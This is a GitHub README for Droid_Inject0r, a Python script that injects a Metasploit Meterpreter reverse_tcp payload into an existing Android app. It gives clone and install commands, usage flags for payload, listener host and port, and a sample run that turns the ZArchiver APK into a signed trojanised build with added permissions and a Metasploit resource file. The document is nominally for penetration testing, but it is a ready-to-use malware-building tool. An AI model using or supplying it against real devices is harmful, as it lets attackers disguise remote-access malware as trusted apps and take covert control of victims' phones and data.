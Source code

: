 # Droid_Inject0r

Droid_Inject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy.png)](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/Y4SS3R005
    [+] TWITTER:      https://twitter.com/yasser_janah
    [+] FACEBOOK:     https://fb.com/yasser.janah
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/Y4SS3R005/Droid_Inject0r.git
cd Droid_Inject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 Droid_apk_Inject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasser.janah >>
    << Twitter  : https://twitter.com/yasser_janah >>
    << Github   : https://github.com/Y4SS3R005/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./Droid_apk_Inject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
